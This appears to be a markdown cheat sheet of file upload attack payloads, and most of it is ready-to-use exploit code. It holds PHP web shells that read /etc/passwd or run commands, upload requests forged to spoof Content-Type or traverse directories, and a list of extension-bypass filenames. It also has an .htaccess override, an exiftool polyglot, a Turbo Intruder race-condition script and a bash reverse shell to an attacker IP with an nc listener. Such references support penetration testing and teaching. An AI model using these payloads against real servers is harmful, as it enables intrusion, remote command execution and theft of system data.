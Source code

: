 ```yaml
---
title: File Upload Vulnerabilities
desc: Examples of File Upload Vulnerabilities.
tags: [FileUpload, ReverseShell, Web]
alts: []
website:
render_with_liquid: false
---
```


## Web shell (.php)

```php
<?php echo file_get_contents('/etc/passwd');  ?>

// https://vulnerable.com/exploit.php?cmd=whoami
<?php echo system($_GET['cmd']); ?>
```

<br />

## Content-Type validation (change Content-Type)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
...
```

<br />

## Directory Traversal (change filename)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
```

<br />

## File Extension Bypass

```
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.php.
exploit.php.jpg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
exploit.php%0d%0a.jpg
exploit.pHp
exploit.gif.pHp
exploit.jpg.php
exploit.png.php
```

<br />

## Override Server Configuration

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

<br />

## Polyglot Web Shell (using exiftool)

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

<br />

## Race condition (using Turbo Intruder)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```

<br />

## Reverse Shell

```php
// Upload reverse_shell.php to the upload form
<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>

// -------------------------------------

// Listening port on the attack machine...
nc -lvnp 4444

// ----------------------------------------

Access to http://vulnerable.com/path/to/upload/reverse_shell.php in browser.
```

<br />

## Bypass exif_imagetype() for PHP

Fake image file with exploit.php

```php
// exploit.php

GIF32a
<?php echo system('whoami'); ?>
```